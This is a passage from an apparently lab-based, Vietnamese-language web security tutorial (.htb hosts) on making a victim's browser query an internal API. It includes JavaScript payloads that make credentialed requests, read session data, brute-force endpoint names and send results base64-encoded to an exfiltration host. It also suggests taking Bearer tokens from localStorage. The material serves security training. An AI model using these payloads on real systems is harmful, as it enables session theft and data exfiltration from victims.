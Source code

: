 Nếu API yêu cầu xác thực với token Bearer, chúng ta có thể sử dụng `localStorage` của nạn nhân để truy xuất token và thêm vào header `Authorization` trong yêu cầu của chúng ta.

### Bước 4: Kiểm tra và xử lý lỗi CORS

Để xác định cấu hình CORS chính xác và tránh lỗi, chúng ta có thể sử dụng khối `try-catch` trong JavaScript để bắt lỗi và phân tích nguyên nhân:

```javascript
try {
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://api.vulnerablesite.htb/v1/sessions', false);
  xhr.withCredentials = true;
  xhr.send();
  var msg = xhr.responseText;
} catch (error) {
  var msg = error;
}

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(msg), false);
exfil.send();
```

### Bước 5: Duyệt các API khác

Một khi chúng ta đã thành công trong việc lấy dữ liệu từ một endpoint, bước tiếp theo là duyệt qua các endpoint khác. Một phương pháp đơn giản là tạo một trình quét brute-force để thử các tên endpoint phổ biến, sử dụng một danh sách như trong file `objects-lowercase.txt` từ SecLists.

Dưới đây là mã JavaScript để kiểm tra nhiều endpoint:

```javascript
var endpoints = ['access', 'account', 'accounts', 'balance', 'profile', 'user', 'settings', 'password', 'token', 'login'];
for (i in endpoints) {
  try {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', `http://api.vulnerablesite.htb/v1/${endpoints[i]}`, false);
    xhr.send();
    if (xhr.status != 404) {
      var exfil = new XMLHttpRequest();
      exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(endpoints[i]), false);
      exfil.send();
    }
  } catch {
    // Do nothing
  }
}
```

Kết quả sẽ giúp chúng ta phát hiện các endpoint hợp lệ mà API cung cấp, từ đó có thể tiếp tục khai thác thêm thông tin nhạy cảm từ API nội bộ.

---